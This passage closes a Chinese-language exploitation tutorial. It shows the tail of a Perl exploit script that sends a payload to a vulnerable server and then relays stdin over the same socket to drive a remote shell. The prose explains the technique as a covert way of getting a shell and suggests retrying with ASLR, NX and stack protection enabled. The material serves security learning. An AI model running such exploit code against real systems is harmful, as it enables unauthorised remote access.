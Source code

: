 ```
$sel = IO::Select-&gt;new( $socket );
$sel-&gt;add(*STDIN);
 
# Exploit!
$socket-&gt;send ($payload);
$socket-&gt;recv ($trash,1024);
$timeout = .1;
 
$flag = 1; # Just to show a prompt
 
# Interact!
while (1) `{`
    if (@ready = $sel-&gt;can_read ($timeout))  `{`
         foreach $fh (@ready) `{`
             $flag =1;
             if($fh == $socket) `{`
                  $socket-&gt;recv ($resp, 1024);
                  print $resp;
             `}`
             else `{` # It is stdin
                  $line = &lt;STDIN&gt;;
                  $socket-&gt;send ($line);
             `}`
         `}`
    `}`       
    else `{` # Show the prompt whenever everything's been read
         print "0x00pf]&gt;  " if ($flag);
         $flag = 0;
    `}`       
`}`
```

漏洞利用代码的开头部分几乎是标准式的。接下来，根据您利用gdb找出的魔法数字来生成payload（请注意，在您的系统中这些数字可能会有所不同，这样的话，这个漏洞利用代码，在您的系统中，可能就会无法正常工作）。

然后，我们必须针对自己的远程shell进行一些额外的工作。使用直接和反向shell时，一旦漏洞利用代码执行完毕，我们通常需要使用另一个程序/模块连接到远程机器，或接收来自远程机器的连接。为此，可以使用netcat或您喜欢的渗透测试平台，甚至是自己专门编写的工具…

但是，就本地而言，我们将使用已建立的连接来访问shell，这个连接就是之前用来发送payload的那个。所以我添加了一些代码，用来从stdin读取命令，并将它们发送到远程服务器，同时也从远程shell读取数据。这些都是些标准的网络代码，实在是没有什么特别之处。

现在，你可以尝试一下这个可以获取远程shell的漏洞利用代码了！

<br>

**小结**

在本文中，我们讨论了一种巧妙地技术，可以隐秘地获取shell来远程访问易受攻击的服务器，并且不需要跟系统提供的套接字API打交道。这使得shellcode的开发变得更简单，也使其更简洁（例如，你可以跟[http://shell-storm.org/shellcode/files/shellcode-858.php2](http://shell-storm.org/shellcode/files/shellcode-858.php2)提供的代码比较一番。

欢迎各位改进这个shellcode，并在评论中发布自己的版本。此外，如果有人想尝试在安全功能被激活情况下的漏洞利用的话，可以：

重新激活ASLR（你已经知道如何做了）

禁用堆栈的执行权限（删除-zexecstack标志或使用execstack工具）

重新激活堆栈保护功能（删除-fno-stackprotector标志）

使用更专业的安全编译选项（使用-DFORTIFY_SOURCE = 2选项进行编译，或使用-O2选项）

使用更加严酷的安全编译选项（使用-O2 -fPIC -pie -fstack-protector-all -Wl，-z，relro，-z，now进行编译）
